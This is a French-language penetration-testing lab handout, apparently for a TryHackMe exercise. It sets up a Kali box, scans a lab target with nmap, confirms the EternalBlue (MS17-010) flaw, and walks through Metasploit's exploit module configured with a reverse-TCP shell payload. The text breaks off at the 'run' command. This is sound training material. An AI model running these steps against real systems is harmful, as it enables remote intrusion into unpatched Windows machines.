 - Connectez-vous en SSH à votre poste d'attaque Kali
  (crédentiels fournis par l'instructeur)

```
sudo apt-get update
sudo apt-get install xrdp lxde-core lxde tigervnc-standalone-server -y
sudo nano /etc/xrdp/xrdp.ini
    max_bpp=16
sudo nano /etc/X11/Xwrapper.config
        allowed_users=ec2-user
sudo service xrdp start
sudo passwd kali 
```
- Connectez-vous en RDP à votre poste d'attaque Kali

- Pingez votre Machine THM

```
sudo apt install openvpn
ifconfig
sudo openvpn xixi.blue.ovpn&
ifconfig
```

- Quelle difference remarquez-vous dans ifconfig?

- Pingez à nouveau votre Machine THM
```
nmap -sV -vv --script vuln TARGET_IP
```


```diff
@@Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-13 07:20 UTC@@
NSE: Loaded 149 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 07:20
Completed NSE at 07:20, 10.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 07:20
Completed NSE at 07:20, 0.00s elapsed
Initiating Ping Scan at 07:20
Scanning 10.10.18.88 [2 ports]
Completed Ping Scan at 07:20, 0.07s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 07:20
Completed Parallel DNS resolution of 1 host. at 07:20, 0.00s elapsed
Initiating Connect Scan at 07:20
Scanning ip-10-10-18-88.ec2.internal (10.10.18.88) [1000 ports]
Discovered open port 139/tcp on 10.10.18.88
Discovered open port 3389/tcp on 10.10.18.88
Discovered open port 445/tcp on 10.10.18.88
Discovered open port 135/tcp on 10.10.18.88
Discovered open port 49158/tcp on 10.10.18.88
Discovered open port 49160/tcp on 10.10.18.88
Discovered open port 49152/tcp on 10.10.18.88
Discovered open port 49153/tcp on 10.10.18.88
Discovered open port 49154/tcp on 10.10.18.88
Completed Connect Scan at 07:20, 2.53s elapsed (1000 total ports)
Initiating Service scan at 07:20
@@Scanning 9 services on ip-10-10-18-88.ec2.internal (10.10.18.88)@@
```

- Les ports ouverts nous renseignent sur le type d'applications qui tournent

https://www.upguard.com/blog/smb-port#:~:text=SMB%20is%20a%20network%20file,dialects%20that%20communicate%20over%20NetBIOS.

- Lister les vulnerabilités potentielles de ce type

```
ls -al /usr/share/nmap/scripts | grep -e "smb"
```

- Vulnerabilité à exploiter : 

    https://en.wikipedia.org/wiki/EternalBlue

- Vérifier le satut de la vulnérabilité sur la machine cible : 

```
nmap -sS -Pn -p 445 10.10.18.88 --script smb-vuln-ms17-010.nse
```

```diff
@@Host script results:@@
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```
- Comprendre la vulnérabilité pour préparer l'attaque : 

References:
       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/. 
       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx. 
       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143. 

### Menez l'attaque exploit

- Prise en main de Metasploit

```
msfconsole -h
```

```
msfconsole
```

```diff                                    ____________
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $a,        |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| $S`?a,     |%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%__%%%%%%%%%%|       `?a, |%%%%%%%%__%%%%%%%%%__%%__ %%%%]@@
@@[% .--------..-----.|  |_ .---.-.|       .,a$%|.-----.|  |.-----.|__||  |_ %%]@@
@@[% |        ||  -__||   _||  _  ||  ,,aS$""`  ||  _  ||  ||  _  ||  ||   _|%%]@@
@@[% |__|__|__||_____||____||___._||%$P"`       ||   __||__||_____||__||____|%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%| `"a,       ||__|%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%|____`"a,$$__|%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%        `"$   %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
@@[%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%]@@
```

```
msf6 > search eternalblue
```

```
Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution
```


```
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options
```

```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.30.2.112     yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```

- Quelles sont les options nécessaires pour la commande ?

```
set _OPTION_ _VALUE_
```

:mushroom: Hint : Le host local doit être adapté à l'interface créée par le VPN


- Préparer le payload pour enclencher un reverse shell en tcp

```
set payload windows/x64/shell/reverse_tcp
```

- Lancez l'attaque

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

